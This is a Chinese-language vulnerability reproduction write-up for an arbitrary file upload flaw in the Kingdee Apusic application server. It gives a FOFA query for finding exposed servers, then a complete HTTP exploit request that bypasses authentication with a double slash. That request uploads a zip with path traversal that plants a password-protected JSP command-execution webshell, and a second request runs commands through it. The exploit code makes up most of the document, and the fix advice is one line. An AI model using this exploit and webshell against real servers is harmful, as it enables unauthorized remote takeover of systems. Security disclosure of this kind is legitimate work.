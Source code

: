 
# 金蝶 Apusic 应用服务器 任意文件上传漏洞复现

### 0x01 产品简介

   金蝶 Apusic 应用服务器（Apusic Application Server，AAS）是一款标准、安全、高效、集成并具丰富功能的企业级应用[服务器软件](https://so.csdn.net/so/search?q=%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%BD%AF%E4%BB%B6&spm=1001.2101.3001.7020)，全面支持 JakartaEE8/9 的技术规范，提供满足该规范的 Web 容器、EJB 容器以及 WebService 容器等，支持 Websocket1.1、Servlet4.0、HTTP2.0 等最新的技术规范，为企业级应用的便捷开发、灵活部署、可靠运行、高效管控以及快速集成等提供关键支撑。

### 0x02 漏洞概述

   金蝶 Apusic 应用服务器 deployApp 接口存在任意文件上传漏洞，攻击者可通过双斜杠绕过鉴权并上传恶意压缩包接管服务器权限。

### 0x03 复现环境

FOFA：app="Apusic 应用服务器"

![](assets/1701134718-2d82cbc6e550352e530e13fd385c4f21.png)

### 0x04 漏洞复现

 Exp

```http
POST /admin//protect/application/deployApp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd9acIBdVuqKWDJbd
Accept-Encoding: gzip

------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="appName"

111
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="clientFile"; filename="evil.zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00../../../../applications/default/public_html/shell2.jsp<%\x0d\x0a    if \x28\"admin\".equals\x28request.getParameter\x28\"pwd\"\x29\x29\x29 \x7b\x0d\x0a        java.io.InputStream input = Runtime.getRuntime\x28\x29.exec\x28request.getParameter\x28\"cmd\"\x29\x29.getInputStream\x28\x29;\x0d\x0a        int len = -1;\x0d\x0a        byte[] bytes = new byte[4092];\x0d\x0a        while \x28\x28len = input.read\x28bytes\x29\x29 != -1\x29 \x7b\x0d\x0a            out.println\x28new String\x28bytes, \"GBK\"\x29\x29;\x0d\x0a        \x7d\x0d\x0a    \x7d\x0d\x0a%>PK\x01\x02\x14\x03\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00../../../../applications/default/public_html/shell2.jspPK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00e\x00\x00\x00\xb9\x01\x00\x00\x00\x00")}}
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="archivePath"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="baseContext"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="startType"

auto
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="loadon"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="virtualHost"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="allowHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="denyHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd--
```

PS：上传带命令回显的 jsp 木马

![](assets/1701134718-89eb4bafa8693648cc35c6d5b108328d.png)

命令执行

```http
GET /shell2.jsp?pwd=admin&cmd=ifconfig HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

### ![](assets/1701134718-d36f600bbd9ff306a24daabd014e5ebd.png)0x05 修复建议

目前厂商已发布安全补丁，请及时更新：http://www.kingdee.com/。
